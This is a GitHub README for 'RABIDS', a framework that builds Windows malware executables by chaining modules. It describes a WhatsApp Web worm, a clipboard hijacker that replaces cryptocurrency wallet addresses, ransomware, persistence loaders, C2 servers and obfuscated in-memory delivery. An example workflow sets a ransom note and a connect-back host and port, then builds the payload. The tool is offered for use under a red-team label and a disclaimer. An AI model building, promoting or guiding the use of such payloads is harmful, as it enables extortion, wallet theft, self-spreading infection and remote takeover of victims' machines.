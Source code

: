 ## What's New

### VERSION 0.1.4
- **New Module: `bartmossbrainworm`** - Messaging worm
- **Features:**
  - Spreads itself by automatically sending a configurable message to all chats in WhatsApp Web
  - The message can be set using the `set MESSAGE "your text"` command before build

### VERSION 0.1.3
- **New Module: `gremlin`** - Clipboard wallet address hijacker
- **Features:**
  - Monitors clipboard for copied wallet addresses (Bitcoin, Ethereum, BEP-20, Solana)
  - Automatically replaces detected wallet addresses with user-configurable predefined addresses
  - Predefined addresses for each chain can be set using the `set` command before build

## Overview
**RABIDS** Roving Autonomous Bartmoss Interface Drones is a modular Windows malware generation framework. It empowers security researchers and red teamers to rapidly build custom malware payloads by chaining together a variety of modules—such as ransomware, persistence loaders, C2 servers, and more—into a single executable. RABIDS is designed for advanced adversary simulation, malware research, and authorized red team operations.

> **Warning:** This tool is for educational and authorized security research only. Misuse may be illegal and unethical.

## Features

- **Modular Payloads:** Chain multiple modules (ransomware, persistence, C2, etc.) into a single EXE.
- **Customizable Options:** Configure module and build options (e.g., ransom note, C2 port, EXE name).
- `use <module>` — Add a module to the build chain
- `set <OPTION> <VALUE>` — Set build/module options
- `show modules` — List available modules
- `show options` — Show current build/module options
- `build` — Build the final EXE payload
- `clear` — Clear selected modules
- `delete` — Remove a module from the chain
- `exit` — Exit the tool

**For detailed documentation on each command and advanced usage, see the [RABIDS Wiki](https://github.com/505sarwarerror/RABIDS/wiki).**

### Example Workflow
```
> show modules
> use krash
> set NOTE "Your files have been encrypted! Contact evil@domain.com."
> use silverhandghost
> set LHOST 192.168.1.10
> set LPORT 4444
> build
```
- The final EXE will be saved in the `.LOOT` directory.

## Advanced Features
- **Module Chaining:** Combine multiple behaviors in one payload.
- **Custom Build Options:** Set EXE name, enable obfuscation, etc.
- **In-Memory Execution:** Use Rust loader for stealthy delivery.

## Legal Disclaimer

RABIDS is intended for educational purposes and authorized security testing only. You must have explicit permission to use this tool against any system or network. The authors and contributors are not responsible for misuse, damage, or legal consequences. Always follow applicable laws and ethical guidelines.

## Contributing

Contributions are welcome! Please fork the repository, create a feature branch, and submit a pull request with a detailed description of your changes.

## License

MIT License. See the `LICENSE` file for details.
